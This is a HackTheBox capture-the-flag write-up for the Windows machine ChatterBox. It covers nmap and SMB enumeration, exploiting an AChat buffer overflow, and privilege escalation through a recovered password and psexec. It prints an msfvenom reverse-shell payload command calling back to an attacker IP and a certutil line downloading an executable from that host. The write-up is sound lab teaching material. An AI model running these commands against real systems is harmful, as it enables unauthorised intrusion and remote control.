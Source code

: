 ```yaml
---
title: "HackTheBox - ChatterBox"
author: Nasrallah
description: ""
date: 2023-03-19 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, bof, rce, smb]
img_path: /assets/img/hackthebox/machines/chatterbox
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [ChatterBox](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.74                                               
Host is up (0.13s latency).                                                    
                                       
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp open  mon?                
| fingerprint-strings: 
|   HTTPOptions, RTSPRequest:                                                                                                                                 
|     HTTP/1.1 200 OK                                                          
|     Connection: close
|_    Server: AChat                                                            
9256/tcp open  achat        AChat chat system
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi
?new-service :
SF-Port9255-TCP:V=7.93%I=7%D=3/15%Time=6411A789%P=x86_64-pc-linux-gnu%r(HT
SF:TPOptions,35,"HTTP/1\.1\x20200\x20OK\r\nConnection:\x20close\r\nServer:
SF:\x20AChat\r\n\r\n")%r(RTSPRequest,35,"HTTP/1\.1\x20200\x20OK\r\nConnect
SF:ion:\x20close\r\nServer:\x20AChat\r\n\r\n");
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-15T12:10:23-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h20m00s, deviation: 2h18m36s, median: 4h59m58s
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-15T16:10:21
|_  start_date: 2023-03-15T15:31:02
```

We have a windows 7 machine running SMb and a chat system called `AChat` on port 9256.

### SMB

Let's list shares of the smb server.

```terminal
$ sudo smbclient -L 10.10.10.74                                                                                                                    [6/36]
Enter WORKGROUP\root's password:                                               
Anonymous login successful                                                     
                                                                               
        Sharename       Type      Comment                                 
        ---------       ----      -------
SMB1 disabled -- no workgroup available    
```

We managed to login as anonymous but couldn't list shares.

### Searchsploit

Let's use `searchsploit` to see if there is any vulnerabilities in `AChat`

```terminal
$ searchsploit achat                              
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                                                                                  | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                                                                     | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities                                                        | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                                                                          | php/webapps/24647.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We found a buffer overflow exploit.

## **Foothold**

Let's copy the exploit with `searchsploit -m windows/remote/36025.py`.

Before running the exploit, we need to change the payload to a one that sends us a reverse shell.

We generate the payload using `msfvenom`

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9001 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

After replacing the old payload with the new one, we setup a listener and run the exploit.

![](1.png)

Great! We got a shell as `Alfred`.

## **Privilege Escalation**

After uploading a copy of winpeas to the target, i run it and managed to get the following result.

```bash
certutil -urlcache -f http://10.10.17.90/win.exe win.exe
```

![](2.png)

We got the password of `Alfred`

Let's see if we can list shares of the smb server this time as `Administrator` using the password we got.

![](4.png)

It worked, we listed the shares and even connected to the `C$` share.

Now let's get a shell using `psexec`.

![](3.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
